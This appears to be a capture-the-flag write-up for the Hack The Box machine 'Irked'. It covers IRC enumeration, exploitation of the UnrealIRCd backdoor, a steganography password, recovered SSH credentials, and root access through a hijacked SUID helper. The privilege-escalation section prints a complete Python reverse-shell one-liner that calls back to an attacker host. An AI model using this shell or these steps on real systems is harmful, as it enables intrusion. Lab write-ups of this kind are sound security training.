







# Irked

> Nashia Holloway | May 16th, 2020

## Enumeration

SSH and port 80.



We have a hint that there's an IRC server running, but it didn't come up in the initial scan. We need a more thorough one: `sudo nmap -p- -sV $IP -oN ports.nmap`.


The IRC server is running on port `6697`. Reading [this IRC guide](https://www.offensive-security.com/offsec-irc-guide/), there's a tool in Kali called `HexChat` that lets you connect to IRC servers.

```
sudo apt-get install hexchat
```

We know from running `nmap -sC -sV -p 6697 10.10.10.117`, what the hostname is.


Now to open and configure hexchat.



From here, we can see what version is running: `3.2.8.1`.



## Initial Access

There's a CVE available (CVE-2010-2075) as well as a metasploit module we can use: `exploit/unix/irc/unreal_ircd_3281_backdoor`. We have a shell and the user flag is under the Djmardov user, but we don't have permission to view it. We do, however, have permission to view the `.backup` file, which gives us a password for a steg file.



```
password: UPupDOWNdownLRlrBAbaSSss
```

The only picture I've seen was on the website.

```
wget http://10.10.10.117/irked.jpg
```

```
sudo apt-get install steghide
```

We are given a password presumably for the Djmardov user. We need to login somewhere with it.



```
djmardov:Kab6h+m+bbp2J:HG
```

From our initial nmap scan, we know SSH is open. Trying that, it works. We can now read the user flag.

## Privilege Escalation

```
find / -perm -u=s -type f 2>/dev/null
```



After some research, it looks like the `/usr/bin/viewuser` program isn't normal. Running it, we see it's a program that tests and sets user permissions. It looks like it's recorded the IP I'm using to login as Djmardov.



It also says "/tmp/listusers: not found". We could probably hijack this to get a root shell. Let's put a reverse shell within `/tmp/listusers`.

```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.46",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'
```

I transferred the file via python web server, and changed it so it can run, then ran the viewuser binary to execute, giving me a root shell on the nc listener I had set up. Was able to get root flag.
